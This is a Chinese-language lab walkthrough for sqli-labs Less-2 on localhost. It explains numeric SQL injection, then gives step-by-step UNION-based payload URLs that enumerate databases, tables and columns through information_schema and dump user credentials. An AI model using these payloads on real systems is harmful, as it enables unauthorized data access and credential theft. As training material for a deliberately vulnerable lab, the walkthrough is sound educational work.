



## 练习开始

首先打开http://127.0.0.1/Less-2/?id=1


第一题是基于显错方式的数字型注入，位置在where之后且后跟limit

核心的语句在于
```
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```
相比于第一题的不同在于，参数没有被单引号所包裹，所以不需要考虑单引号闭合的问题
```
and 1066=1066  返回正确
and 2012=1066  返回错误
```


## 手工注入

### 0x01 判断列数

`
http://127.0.0.1/Less-2/?id=1  order by 3
`
在语句中的形式就是
`
SELECT * FROM users WHERE id=1  order by 3 LIMIT 0,1
`

### 0x02 判断显错点
`
http://127.0.0.1/Less-2/?id=-1 union select 1,2,3
`

如此 显错点还是2和3


### 0x03 查看数据库

`
http://127.0.0.1/Less-2/?id=-1 union select 1,count(*),3 from information_schema.schemata #
`

遍历数据库
`
http://127.0.0.1/Less-2/?id=-1 union select 1,schema_name,3 from information_schema.schemata limit 0,1 --+
`

这里有一点需要注意的是后面的limit已经写死了，需要将后面的limit 0,1 注释之后才能继续操作


### 0x04 查看表

猜测表的数量
`
http://127.0.0.1/Less-2/?id=-1 union select 1,count(*),3 from information_schema.tables where table_schema='security' --+
`
遍历表的名字

`
http://127.0.0.1/Less-2/?id=-1 union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 0,1--+
`

### 0x05 查看列

猜测列的数量
`
http://127.0.0.1/Less-2/?id=-1 union select 1,count(*),3 from information_schema.columns where table_schema='security' and table_name='users' --+
`
遍历列

`
http://127.0.0.1/Less-2/?id=-1 union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name='users' limit 0,1--+
`



### 0x06 猜解内容
`
http://127.0.0.1/Less-2/?id=-1 union select 1,concat_ws(" : ", username, password),3 from users --+
`

